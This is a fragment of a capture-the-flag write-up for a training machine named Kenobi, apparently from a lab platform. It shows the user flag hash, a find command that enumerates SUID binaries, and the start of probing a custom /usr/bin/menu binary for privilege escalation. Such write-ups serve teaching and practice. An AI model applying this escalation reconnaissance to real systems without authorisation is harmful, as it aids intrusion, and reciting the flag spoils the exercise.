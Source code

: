 ```
65 updates are security updates.


Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$ 
```
## User Flag
```
kenobi@kenobi:~$ cat user.txt 
d0b0f3f53b6caa532a83915e19224899
```
## Post Exploitation
```
find / -perm -u=s -type f 2>/dev/null
```
### This is odd
```
kenobi@kenobi:~$ find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6
```
```
/usr/bin/menu
```
### Let run this
```
/usr/bin/menu
```
```
kenobi@kenobi:~$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
```